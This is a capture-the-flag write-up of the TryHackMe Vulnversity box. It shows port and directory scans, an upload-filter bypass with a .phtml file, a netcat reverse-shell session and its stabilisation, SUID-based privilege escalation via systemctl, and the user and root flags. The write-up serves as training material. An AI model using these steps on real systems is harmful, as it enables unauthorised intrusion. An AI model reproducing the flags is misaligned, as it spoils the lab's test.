 # This is my writeup for the Try_Hack_Me box - Vulnversity

The box showcases web exploitation and set uid priv escalation.\
The box is now taken of the website. But still worth it.
 
> Pratyush Prakhar (5h1NcH@n010) - 11/01/2020


## RECONNAISSANCE

1. Scan the box, how many ports are open?- **6**
	
	1. Ran a quick scan for all ports

	**Output**

	```bash
	sudo nmap -p- -vv 10.10.237.128
	Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-01 22:50 EST
	Initiating Ping Scan at 22:50                                                                                                                                         ............                                                                                                          
	Initiating SYN Stealth Scan at 22:50
	Scanning 10.10.237.128 [65535 ports]
	Discovered open port 22/tcp on 10.10.237.128
	Discovered open port 21/tcp on 10.10.237.128
	Discovered open port 445/tcp on 10.10.237.128
	Discovered open port 139/tcp on 10.10.237.128
	Discovered open port 3333/tcp on 10.10.237.128
	SYN Stealth Scan Timing: About 4.77% done; ETC: 23:01 (0:10:19 remaining)
	.......
	SYN Stealth Scan Timing: About 77.43% done; ETC: 23:03 (0:02:58 remaining)
	Discovered open port 3128/tcp on 10.10.237.128
	SYN Stealth Scan Timing: About 82.85% done; ETC: 23:03 (0:02:17 remaining)           
	```

	2. Then ran a standard scan for the specific ports found - **21,22,139,445,3128,3333**

	**Output**

	```bash
	sudo nmap -vv -sC -sV -p21,22,139,445,3128,3333 10.10.237.128
	Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-01 23:03 EST
	NSE: Loaded 153 scripts for scanning.
	.........
	Initiating SYN Stealth Scan at 23:03
	Scanning 10.10.237.128 [6 ports]
	Discovered open port 3128/tcp on 10.10.237.128
	Discovered open port 22/tcp on 10.10.237.128
	Discovered open port 445/tcp on 10.10.237.128
	Discovered open port 21/tcp on 10.10.237.128
	Discovered open port 139/tcp on 10.10.237.128
	Discovered open port 3333/tcp on 10.10.237.128
	Completed SYN Stealth Scan at 23:03, 0.24s elapsed (6 total ports)
	Initiating Service scan at 23:03
	Scanning 6 services on 10.10.237.128
	Completed Service scan at 23:03, 22.30s elapsed (6 services on 1 host)
	NSE: Script scanning 10.10.237.128.
	NSE: Starting runlevel 1 (of 3) scan.
	Initiating NSE at 23:03
	Completed NSE at 23:03, 5.94s elapsed
	NSE: Starting runlevel 2 (of 3) scan.
	Initiating NSE at 23:03
	Completed NSE at 23:03, 1.21s elapsed
	NSE: Starting runlevel 3 (of 3) scan.
	Initiating NSE at 23:03
	Completed NSE at 23:03, 0.01s elapsed
	Nmap scan report for 10.10.237.128
	Host is up, received reset ttl 61 (0.17s latency).
	Scanned at 2020-11-01 23:03:20 EST for 30s
	PORT     STATE SERVICE     REASON         VERSION                                                                                                                                                               
	21/tcp   open  ftp         syn-ack ttl 61 vsftpd 3.0.3
	22/tcp   open  ssh         syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey:
	|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
	| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDYQExoU9R0VCGoQW6bOwg0U7ILtmfBQ3x/rdK8uuSM/fEH80hgG81Xpqu52siXQXOn1hpppYs7rpZN+KdwAYYDmnxSPVwkj2yXT9hJ/fFAmge3vk0Gt5Kd8q3CdcLjgMcc8V4b8v6UpYemIgWFOkYTzji7ZPrTNlo4HbDgY5	
	/F9evC9VaWgfnyiasyAT6aio4hecn0Sg1Ag35NTGnbgrMmDqk6hfxIBqjqyYLPgJ4V1QrqeqMrvyc6k1/XgsR7dlugmqXyICiXu03zz7lNUf6vuWT707yDi9wEdLE6Hmah78f+xDYUP7iNA0raxi2H++XQjktPqjKGQzJHemtPY5bn
	|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
	| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHCK2yd1f39AlLoIZFsvpSlRlzyO1wjBoVy8NvMp4/6Db2TJNwcUNNFjYQRd5EhxNnP+oLvOTofBlF/n0ms6SwE=
	|   256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
	|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGqh93OTpuL32KRVEn9zL/Ybk+5mAsT/81axilYUUvUB
	139/tcp  open  netbios-ssn syn-ack ttl 61 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	445/tcp  open  netbios-ssn syn-ack ttl 61 Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
	3128/tcp open  http-proxy  syn-ack ttl 61 Squid http proxy 3.5.12
	|_http-server-header: squid/3.5.12
	|_http-title: ERROR: The requested URL could not be retrieved
	3333/tcp open  http        syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
	| http-methods:
	|_  Supported Methods: OPTIONS GET HEAD POST
	|_http-server-header: Apache/2.4.18 (Ubuntu)
	|_http-title: Vuln University
	Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
	Host script results:
	|_clock-skew: mean: 1h39m57s, deviation: 2h53m12s, median: -3s
	| nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
	| Names:
	|   VULNUNIVERSITY<00>   Flags: <unique><active>
	|   VULNUNIVERSITY<03>   Flags: <unique><active>
	|   VULNUNIVERSITY<20>   Flags: <unique><active>
	|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
	|   WORKGROUP<00>        Flags: <group><active>
	|   WORKGROUP<1d>        Flags: <unique><active>
	|   WORKGROUP<1e>        Flags: <group><active>
	| Statistics:
	|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
	|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
	|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
	| p2p-conficker: 
	|   Checking for Conficker.C or higher...
	|   Check 1 (port 14476/tcp): CLEAN (Couldn't connect)
	|   Check 2 (port 46485/tcp): CLEAN (Couldn't connect)
	|   Check 3 (port 37058/udp): CLEAN (Failed to receive data)
	|   Check 4 (port 47439/udp): CLEAN (Failed to receive data)
	|_  0/4 checks are positive: Host is CLEAN or ports are blocked
	| smb-os-discovery: 
	|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
	|   Computer name: vulnuniversity
	|   NetBIOS computer name: VULNUNIVERSITY\x00
	|   Domain name: \x00
	|   FQDN: vulnuniversity
	|_  System time: 2020-11-01T23:03:41-05:00
	| smb-security-mode: 
	|   account_used: guest
	|   authentication_level: user
	|   challenge_response: supported
	|_  message_signing: disabled (dangerous, but default)
	| smb2-security-mode: 
	|   2.02: 
	|_    Message signing enabled but not required
	| smb2-time: 
	|   date: 2020-11-02T04:03:42
	|_  start_date: N/A
	```

	3. What version of the squid proxy is running on the machine? - **3.5.12**

	4. How many ports will nmap scan if the flag -p-400 was used? - Basically translates to -p1-400. - **400**

	5. Using the nmap flag -n what will it not resolve? - can be found in **man page of nmap** - **DNS**

	6. What is the most likely operating system this machine is running? - Leaked from the smb enum script - **Ubuntu**

	7. What port is the web server running on? - Service running on Apache Web Server - **3333**


## GOBUSTER
	
2. What is the directory that has an upload form page? - **/internal/** - Upload

**GOBUSTER OUTPUT**

```bash
gobuster dir -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u "http://10.10.237.128:3333"

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.237.128:3333
[+] Threads:        100
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/01 23:57:56 Starting gobuster
===============================================================
/images (Status: 301)
/css (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
/internal (Status: 301)
..........
===============================================================
2020/11/01 23:58:22 Finished
===============================================================
```

## Web Exploit

**Images**

1. What common extension seems to be blocked? - **.php**

3. What extension is allowed? - **.phtml**

4. Stabilizing shell

**Output**

```bash
kali@kali:~/Desktop/Try_Hack_Me/Vulnversity$ nc -lnvvp 8888
listening on [any] 8888 ...
connect to [10.2.44.183] from (UNKNOWN) [10.10.25.49] 44380
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
01:32:54 up 25 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ which python
/usr/bin/python
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@vulnuniversity:/$ ^Z
[1]+  Stopped                 nc -lnvvp 8888
kali@kali:~/Desktop/Try_Hack_Me/Vulnversity$ stty raw -echo
kali@kali:~/Desktop/Try_Hack_Me/Vulnversity$ nc -lnvvp 8888
                                                                                                                                                                                                                
www-data@vulnuniversity:/$ l                                   
```

5. What is the name of the user who manages the webserver? - **bill**

```bash
www-data@vulnuniversity:/home$ ls
bill
```

6. What is the user flag? - **8bd7992fbe8a6ad22a63361004cfcedb**

```bash
www-data@vulnuniversity:/home/bill$ ls
user.txt
www-data@vulnuniversity:/home/bill$ cat user.txt 
8bd7992fbe8a6ad22a63361004cfcedb
```

## Privilege Escalation

**LINPEAS OUTPUT**
```bash
====================================( Interesting Files )=====================================
[+] SUID - Check easy privesc, exploits and write perms
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
-rwsr-xr-x 1 root   root        44K May  7  2014 /bin/ping6
.......
-rwsr-xr-x 1 root   root        23K Jan 15  2019 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)
-rwsr-sr-x 1 root   root        97K Jan 29  2019 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root   root       419K Jan 31  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root   root       645K Feb 13  2019 /bin/systemctl
```

1. On the system, search for all SUID files. What file stands out? - **/bin/systemctl**

2. What is the root flag? - **a58ff8579f0a9270368d33a9966c7fd5**


**Stay Tuned On**\
[Github](https://github.com/pratty010/Boxes)\
[LinkedIn](https://www.linkedin.com/in/pratyush-prakhar/)